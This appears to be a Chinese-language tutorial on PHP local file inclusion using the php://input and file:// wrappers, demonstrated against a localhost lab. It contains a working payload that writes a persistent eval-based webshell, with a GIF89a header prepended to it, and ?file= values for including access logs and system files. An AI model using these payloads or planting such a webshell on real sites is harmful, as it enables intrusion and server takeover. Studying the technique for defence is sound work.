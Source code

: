 ![img](assets/1853528-20191106132336991-1666925658.png)

## php://input

php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。

**注：当enctype=”multipart/form-data”时，php://input是无效的。**

```php
php://input
用法：?file=php://input 数据利用POST传过去。
GIF89a
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["test"])?>');?>
```

## **file://**

用于访问本地文件系统。当指定了一个相对路径（不以/、、\或 Windows 盘符开头的路径）提供的路径将基于当前的工作目录。

用法：

```php
1、file://[文件的绝对路径和文件名]
http://127.0.0.1/include.php?file=file://E:\phpStudy\PHPTutorial\WWW\phpinfo.txt
2、[文件的相对路径和文件名]
http://127.0.0.1/include.php?file=./phpinfo.txt
```

```php
利用日志文件包含
?file=/var/log/nginx/access.log
?file=file:///D:/phpstudy_pro/WWW/php/123.txt
需要完整路径
?file=file://C:/Windows/System32/drivers/etc/hosts.txt
?file=file://C:/phpstudy_pro/Extensions/Nginx1.15.11/logs/access.log
```
